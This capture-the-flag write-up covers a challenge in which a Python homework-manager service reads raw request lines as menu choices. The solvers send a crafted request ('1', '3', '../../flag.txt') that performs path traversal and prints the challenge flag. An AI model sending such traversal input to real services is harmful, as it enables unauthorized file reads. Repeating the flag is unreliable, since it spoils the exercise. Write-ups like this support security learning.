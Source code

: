 # Biff's homework

Biff's has developed a simple application to manage his homework. But the appliction has some flaws. What kind of secrets could we obtain from it?

---

When we browsed to the corresponding IP:port, the browser was not able to draw any content. For sure, Biff's program was not a web application.

We tried to intercept the requests using Burp Suite. We found some interesting traces. They are unhandled exceptions of a python program, so we asumed that the application was written in Python. 

```
[33m[*] Choose action: [0mTraceback (most recent call last):
  File "/home/ctf/biffs_homework.py", line 104, in <module>
    act = menu()
  File "/home/ctf/biffs_homework.py", line 68, in menu
    return int(input(colored("[*] Choose action: ", "yellow")))
ValueError: invalid literal for int() with base 10: 'GET / HTTP/1.1\r'
```

Furthermore, we observed that the application is trying to read some input and cast it into an integer value. The error trace showed the input value: `GET / HTTP/1.1\r`. That was the very first line of the request. We did some tests and finally we conclude that Biff's program was reading the input secuentillay from the first lines of each request.

The program workflow is simple. First, we had to select a subject, then we were able to see more specific options within that directory like creating a file, compressing a file, or reading the contents of a file, which was very useful for us. We tried to go to `/home/ctf` with the option `6. Change directory`, but it did not work. We needed a workaround.

We knew that the flag is in the file `/home/ctf/flag.txt`. Furthermore, when we executed the option `4. List directory`, the application returned `/home/ctf/Ge95i7EHqmznjG7Qv8LtWSi57PWTQqBD/Math`. At that point we knew the working directoy, so we tried to do path traversal, from there to the flag.txt, using option `3. Read filename`.

Summing up, we needed to write an specific sequence of strings at the beginning of the request. The final request looked like this:

```
1
3
../../flag.txt
GET / HTTP/1.1
[...]
```

When Beff's application received that request we were able to see the contents of the flag: `HTB{GTFO_b1ff_th15_15_McFly_t1m3}`. Below you can see the response to that request, which includes the flag. 

```
[36m
[*] Directory to work in: Ge95i7EHqmznjG7Qv8LtWSi57PWTQqBD[0m
[35m
List of Biff's subjects:


  +=================+
  |                 |
  |  1. Maths       |
  |  2. Physics     |
  |  3. Geography   |
  |  4. Chemistry   |
  |  5. Literature  |
  |                 |
  +=================+
  [0m
[35m[*] Choose subject: [0m[34m
[*] Sub-directory to work in: Ge95i7EHqmznjG7Qv8LtWSi57PWTQqBD/Maths
[0m
[33m
  Actions:

  1. Create file      (touch and fwrite)
  2. Compress file    (zip <filename>.zip <filename> <options>)
  3. Read filename    (cat ./<filename>)
  4. List directory   (pwd; ls -la)
  5. Clean directory  (rm -rf ./*)
  6. Change directory (cd <dirname>)
  7. Exit
  [0m
[33m[*] Choose action: [0m

Insert filname you want to read: HTB{GTFO_b1ff_th15_15_McFly_t1m3}
[33m
  Actions:

  1. Create file      (touch and fwrite)
  2. Compress file    (zip <filename>.zip <filename> <options>)
  3. Read filename    (cat ./<filename>)
  4. List directory   (pwd; ls -la)
  5. Clean directory  (rm -rf ./*)
  6. Change directory (cd <dirname>)
  7. Exit
  [0m
[33m[*] Choose action: [0mTraceback (most recent call last):
  File "/home/ctf/biffs_homework.py", line 104, in <module>
    act = menu()
  File "/home/ctf/biffs_homework.py", line 68, in menu
    return int(input(colored("[*] Choose action: ", "yellow")))
ValueError: invalid literal for int() with base 10: 'GET / HTTP/1.1\r'
```



